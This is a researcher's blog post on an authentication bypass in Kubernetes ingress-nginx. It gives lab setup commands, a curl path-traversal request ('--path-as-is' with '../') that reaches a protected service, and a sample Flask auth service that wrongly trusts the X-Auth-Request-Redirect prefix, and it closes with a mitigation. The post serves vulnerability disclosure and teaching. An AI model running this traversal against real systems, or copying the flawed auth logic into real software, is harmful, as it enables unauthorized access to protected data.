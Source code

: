 ```yaml
---
title: "External Authentication bypass in ingress-nginx"
date: 2022-05-29T16:59:02+01:00
draft: false
tags: [kubernetes, ingress, nginx, path-traversal]
---
```


{{< figure src="https://user-images.githubusercontent.com/17719543/170878532-514c01cc-aa97-42b2-adba-f61a155d9863.png" class="image-center" >}}

In October 2021 I was researched [ingress-nginx](https://kubernetes.github.io/ingress-nginx/) for possibility to bypass external authentication using path traversal. It was origin story for other investigations regarding insecure usage of `$request_uri` which leaded to [Apache APISIX CVE-2021-43557](https://apisix.apache.org/blog/2021/11/23/cve-2021-43557-research-report/). I have started with report on HackerOne to Kubernetes project: https://hackerone.com/reports/1357948. It took long time for the team to investigate it, but in the end I got some bounty 😏 sadly report was closed as informative. They asked me to create normal [issue](https://github.com/kubernetes/ingress-nginx/issues/8644) in github as this behavior is considered as **not security issue**. For me this is still an issue of **insecure design**.

Just look on values of `X-Original-Url` and `X-Auth-Request-Redirect` that are send to external auth service:
```
X-Request-Id: 7d979c82ca55141ed0d58655fbaac586
Host: auth-service.default.svc.cluster.local
X-Original-Url: http://app.test/public-service/..%2Fprotected-service/protected
X-Original-Method: GET
X-Sent-From: nginx-ingress-controller
X-Real-Ip: 192.168.99.1
X-Forwarded-For: 192.168.99.1
X-Auth-Request-Redirect: /public-service/..%2Fprotected-service/protected
Connection: close
User-Agent: curl/7.75.0
Accept: */*
```

Root cause of the problem, is how nginx is handling `$request_uri` variable. It's documented very "frugal":

{{< figure src="https://user-images.githubusercontent.com/17719543/170879498-1cca915f-9c5f-45f3-a6fc-fdfc97ff22a2.png" class="image-center" >}}

For me it's not enough. There should be brought documentation of risks associated with consuming not normalized paths. After pointing it out to nginx team, I got response that it's obvious that `$request_uri` is not normalized and developers should take care of their projects 😕. This would be perfect world, but we are not living in such. Just compare it with documentation in [envoy](https://www.envoyproxy.io):

* [rejecting-client-requests-with-escaped-slashes](https://www.getambassador.io/docs/edge-stack/latest/topics/running/ambassador/#rejecting-client-requests-with-escaped-slashes) - although it's not directly for Emissary. It's describing well envoy concerts for escaped slashes
* [GHSA-xcx5-93pw-jw2w](https://github.com/envoyproxy/envoy/security/advisories/GHSA-xcx5-93pw-jw2w) (CVE-2019–9901) - description of risks associated with normalizing paths in envoy
* [envoy http connection manager options](https://www.envoyproxy.io/docs/envoy/latest/api-v3/extensions/filters/network/http_connection_manager/v3/http_connection_manager.proto) - look for two particular: `normalize_path` and `path_with_escaped_slashes_action`

**If you also thinks similar. Put your comment in https://github.com/kubernetes/ingress-nginx/issues/8644**

## Setting the stage

### install ingress-nginx into Kubernetes:

```bash
helm upgrade --install ingress-nginx ingress-nginx \
  --repo https://kubernetes.github.io/ingress-nginx \
  --namespace ingress-nginx --create-namespace
```

In case of problems follow [official guide](https://kubernetes.github.io/ingress-nginx/deploy/).

### deploy test application

```
kubectl apply -f https://raw.githubusercontent.com/xvnpw/k8s-ingress-auth-bypass/master/app.yaml
```

### [optional] forward ingress port

```
kubectl port-forward service/ingress-nginx-controller -n ingress-nginx 8080:80
```

### verify services

First public service. It should be available without authentication:

```
$ curl http://127.0.0.1:8080/public-service/public -H "Host: app.test"
{"data":"public data"}
```

and now protected:

```
$ curl http://127.0.0.1:8080/protected-service/protected  -H "Host: app.test"
<html>
<head><title>401 Authorization Required</title></head>
<body>
<center><h1>401 Authorization Required</h1></center>
<hr><center>nginx</center>
</body>
</html>

$ curl http://127.0.0.1:8080/protected-service/protected -H "X-Api-Key: secret-api-key" -H "Host: app.test"
{"data":"protected data"}
```

as you can see I need to provide "secret-api-key" to get resource.

## Exploitation

Let's send request with path traversal

```
$ curl --path-as-is http://127.0.0.1:8080/public-service/../protected-service/protected -H "Host: app.test"
{"data":"protected data"}
```

As you can see, I was able to bypass uri restrictions 😄

## Authentication service

Of course **not all** authentication services will be vulnerable. Only those that are making specific decisions based on requested paths. In my case service looks like this:

```
@app.route('/verify')
def verify():
    print(request.headers, file=sys.stderr)
    api_key = request.headers.get('X-Api-Key')
    request_redirect = request.headers.get('X-Auth-Request-Redirect')

    if request_redirect and request_redirect.startswith("/public-service/"):
        return Response(status = HTTPStatus.NO_CONTENT)

    if api_key == "secret-api-key":  
        return Response(status = HTTPStatus.NO_CONTENT)

    return Response(status = HTTPStatus.UNAUTHORIZED)
```

and ingress is defined as:

```
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/rewrite-target: /$1
    nginx.ingress.kubernetes.io/auth-url: http://auth-service.default.svc.cluster.local:8080/verify
spec:
  rules:
    - host: app.test
      http:
        paths:
          - path: /public-service/(.*)
            pathType: Prefix
            backend:
              service:
                name: public-service
                port:
                  number: 8080
          - path: /protected-service/(.*)
            pathType: Prefix
            backend:
              service:
                name: protected-service
                port:
                  number: 8080
```

### Mitigation

One thing is to not trust content of `X-Original-Uri` and `X-Auth-Request-Redirect` headers. But there is also nice variable that can be used: `$service_name`

```
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$1
    nginx.ingress.kubernetes.io/auth-url: http://auth-service.default.svc.cluster.local:8080/verify
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_input_headers "X-Forwarded-Scheme: $scheme";
      more_set_input_headers "X-Forwarded-Uri: $uri";
      more_set_input_headers "X-Forwarded-Prefix: $service_name";
      more_set_input_headers "X-Forwarded-Host: $http_host";
```

it allows to get name of service in kubernetes that is targeted by request and pass it to auth-url. This way it's not manipulated!

## Summary

I'm really happy that I have asked myself what is `X-Auth-Request-Redirect` header 🙂 This question took me for nice adventure, where I have checked source code of several ingress controllers. 

What is sad is how nginx is considering `$request_uri` and how hard is to convince both nginx and ingress-nginx team that this is real security problem.

Whole code of this example is here https://github.com/xvnpw/k8s-ingress-auth-bypass.

### Other articles from this series

* [CVE-2021-43557: Apache APISIX: Path traversal in request_uri variable]({{< ref "/posts/CVE_2021_43557_Apache_APISIX_Path_traversal_in_request_uri_variable.md" >}})
* [Path traversal in authorization context in Traefik and HAProxy]({{< ref "/posts/path_traversal_in_authorization_context_in_Traefik_and_HAProxy.md" >}})
* [Path traversal in authorization context in Emissary]({{< ref "/posts/path_traversal_in_authorization_context_in_Emissary.md" >}})
* [Path traversal in authorization context in Kong and F5 NGINX]({{< ref "/posts/path_traversal_in_authorization_context_in_Kong_and_F5_NGINX.md" >}})
* [Bug bounty tips for nginx $request_uri path traversal bypass]({{< ref "/posts/bug_bounty_tips_for_nginx_request_uri_path_traversal_bypass.md" >}})
* [Hunting for buggy authentication/authorization services on github]({{< ref "/posts/hunting_for_buggy_authentication_authorization_services_on_github.md" >}})

---

Thanks for reading! You can follow me on [Twitter](https://twitter.com/xvnpw).
